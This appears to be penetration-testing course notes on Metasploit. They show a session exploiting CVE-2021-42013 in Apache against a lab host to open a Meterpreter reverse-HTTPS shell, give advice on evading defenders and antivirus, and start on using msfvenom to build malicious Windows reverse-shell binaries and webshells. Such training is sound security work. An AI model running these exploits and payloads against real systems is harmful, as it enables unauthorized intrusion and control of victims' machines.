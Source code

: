 Now, let's launch the exploit module by entering **run** without setting a value to the _LURI_ option:
```
msf6 exploit(multi/http/apache_normalize_path_rce) > run

[*] Started HTTPS reverse handler on https://192.168.119.4:4444
[*] Using auxiliary/scanner/http/apache_normalize_path as check
[+] http://192.168.50.16:80 - The target is vulnerable to CVE-2021-42013 (mod_cgi is enabled).
[*] Scanned 1 of 1 hosts (100% complete)
[*] http://192.168.50.16:80 - Attempt to exploit for CVE-2021-42013
[*] http://192.168.50.16:80 - Sending linux/x64/meterpreter_reverse_https command payload
[*] https://192.168.119.4:4444 handling request from 192.168.50.16; (UUID: qtj6ydxw) Redirecting stageless connection from /5VnUXDPXWg8tIisgT9LKKgwTqHpOmN8f7XNCTWkhcIUx8BfEHpEp4kLUgOa_JWrqyM8EB with UA 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.81 Safari/537.36 Edg/97.0.1072.69'
...
[*] https://192.168.119.4:4444 handling request from 192.168.50.16; (UUID: qtj6ydxw) Attaching orphaned/stageless session...
[*] Meterpreter session 5 opened (192.168.119.4:4444 -> 127.0.0.1) at 2022-08-08 06:12:42 -0400
[!] This exploit may require manual cleanup of '/tmp/IkXnnbYT' on the target

meterpreter > 
```
+ Above shows that the payload provided us with a Meterpreter session

The output displays the handling of various requests until the Meterpreter session is established
+ If a defender monitors the payload's communication, it seems like regular HTTPS traffic
+ Furthermore, if they would check the address of the communication endpoint (our Kali machine in this example), they'd only get a _Not found_ page with HTTP code 404 in the browser

In a penetration test, we can use this payload to improve our chances of bypassing security technology and defenders
+ However, as Metasploit is one of the most well-known exploit frameworks, the detection rates of Meterpreter payloads are quite high by security technologies such as antivirus solutions
+ Therefore, we should always attempt to obtain an initial foothold with a raw TCP shell and then deploy a Meterpreter shell as soon as we have disabled or bypassed potential security technologies
+ However, this kind of obfuscation is outside of the scope of this Module
### Executable Payload
Metasploit also provides the functionality to export payloads into various file types and formats such as Windows and Linux binaries, webshells, and more
+ Metasploit contains _msfvenom_ as a standalone tool to generate these payloads
+ It provides standardized command line options and includes various techniques to customize payloads

To get familiar with msfvenom, we'll first create a malicious Windows binary starting a raw TCP reverse shell
+ Let's begin by listing all payloads with **payloads** as argument for **-l**
+ In addition, we use **--platform** to specify the platform for the payload and **--arch** for the architecture
```
msfvenom -l payloads --platform windows --arch x64
```
+ Above shows that we can choose between a staged and non-staged payload
+ For this example, we'll use the non-staged payload first
+ Can specify `php` as the arch for a php webshell 
